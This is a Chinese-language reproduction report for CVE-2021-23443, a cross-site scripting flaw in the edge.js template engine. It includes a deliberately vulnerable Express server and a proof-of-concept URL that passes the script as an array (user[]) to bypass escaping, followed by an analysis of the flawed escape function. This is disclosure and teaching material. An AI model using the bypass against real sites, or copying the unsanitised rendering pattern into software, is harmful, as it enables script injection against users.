

# 漏洞详情信息表

- 漏洞名称：edge.js 跨站脚本漏洞
- CNNVD 编号：CNNVD-202109-1534
- CVE 编号：CVE-2021-23443
- 厂商：个人开发者
- 危害等级：低危
- 漏洞类型：跨站脚本
- 收录时间：2021-09-21 00:00:00
- 更新时间：2022-05-05 00:00:00

edge.js 是 Node.js 模板引擎。
edge.js 5.3.2 之前存在安全漏洞，当要呈现的输入是数组（而不是字符串或 SafeValue）时，即使使用了 {{ }}，类型混淆漏洞也可用于绕过输入清理。

# 系统和软件环境配置详情信息表

- 操作系统：
  - Arch Linux (6.3.3-zen1-1-zen)
- 软件：
  - node v20.2.0
  - yarn v1.22.19
  - edge.js v5.3.1

# 漏洞还原详细步骤

1. 使用 `mkdir CVE-2021-23443` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add edge.js@5.3.1` 安装带有缺陷的 edge.js 版本。
4. 使用 `yarn add express` 安装一个简易的 Web 后端框架。

# 漏洞测试或验证详细步骤

## 编写代码

我们假设有一个服务器，直接使用 edge.js 来作为网页渲染引擎。

新建文件 `index.js`，写入以下代码：

```js
const { join } = require("path");
const edge = require("edge.js").default;

edge.mount(join(__dirname, "views"));

const express = require("express");
const app = express();

app.use("/", (req, res) => {
  const param = req.query;
  const path = req.path.slice(1);
  res.send(edge.renderSync(path, param));
});

app.listen(3000, () => {
  console.log("Listening on http://localhost:3000/");
});
```

上面这段代码会监听 `3000` 端口，并且对外提供 Web 服务。所有请求的参数都会直接传递给 edge.js 的 `renderSync` 函数。

创建文件 `views/welcome.edge`，写入以下内容：

```html
<p>Welcome {{ user }}!</p>
```

之后我们使用 `node index.js` 开启服务器，并且使用浏览器访问 `http://localhost:3000/welcome?user=swwind` 页面，可以看到网页的内容如下。


## 验证漏洞

一般来说，edge.js 会自动将我们的输入信息全部过滤，防止出现 XSS 攻击。

例如我们访问下面的连接，就会看到尝试注入的 `<script>` 标签都经过了过滤。

```
http://localhost:3000/welcome?user=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```


但是如果我们尝试将输入的格式改成数组的形式，那么就可以绕过 edge.js 的过滤算法。

例如我们访问下面的链接，注意 `user` 被修改成了 `user[]`。

```
http://localhost:3000/welcome?user[]=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```



可以看到成功绕过了 HTML 过滤，实现了 XSS 攻击。

## 漏洞分析

这个漏洞出现的原因在于 edge.js 内部的 `escape` 函数的缺陷。


这个函数仅仅只对 `string` 类型的输入做了 `escape`，但是却没有判断其他不是 `string` 也不是 `SafeValue` 类型的数据。因此在这里我们只需要将输入用数组的形式给出，那么该函数将不会进行任何过滤，直接返回了原本的数组。之后的过程中程序会自动调用 `Array.prototype.toString` 函数将数组转换成字符串类型，该函数默认是先将所有元素转换成字符串，接着使用 `,` 进行拼接。当我们的输入是 `["<script>xxx</script>"]` 的时候，转换成字符串的结果自然就会是 `"<script>xxx</script>"`，从而可以轻松实现 XSS 攻击。

# 漏洞危害分析

XSS（Cross-site Scripting）跨站脚本攻击是一种非常常见的网络安全漏洞，攻击者通过在网站上注入恶意脚本代码，使得用户在浏览网站时执行这些恶意代码。

XSS 攻击的危害非常严重，具体表现在以下几个方面：

- 窃取敏感信息：攻击者可以在受害者的浏览器中执行恶意脚本，窃取用户的敏感信息，如登录凭证、浏览器 cookie 信息等。
- 盗取账号信息：攻击者可以伪造虚假网站，诱骗受害者输入账号密码等信息，从而盗取用户的账号信息。
- 篡改网页内容：攻击者可以通过 XSS 攻击篡改网页内容、插入恶意链接等，这将对用户的访问产生误导和危害。
- 控制用户端浏览器：攻击者可以通过 XSS 攻击控制用户端浏览器，执行恶意操作或者继续攻击其他网站。

由于 XSS 攻击的危害较大，因此，在进行 Web 应用开发时，需要开发人员认真防范 XSS 攻击，采取严谨的安全设计和开发措施。

# 个人感悟

从开发者的角度来看，我认为在进行 Web 应用开发时，应该始终将安全放在首位。对于 XSS 攻击而言，可以采取一些预防措施如过滤特殊字符、转义用户输入、限制用户输入内容长度等方式来避免 XSS 攻击。此外，开发人员还需要对代码进行严格的安全审查和测试，确保没有漏洞出现。

从攻击者的角度来看，我认为攻击者会利用 XSS 攻击来获取用户的敏感信息或者远程控制用户的浏览器进行攻击等。他们可能会通过尝试各种不同的注入方式，或利用已知的漏洞来尝试攻击网站。因此作为防御者，需要密切关注最新的安全漏洞和攻击技术，并及时修补漏洞并加强系统的安全性，以提高系统的安全性能。
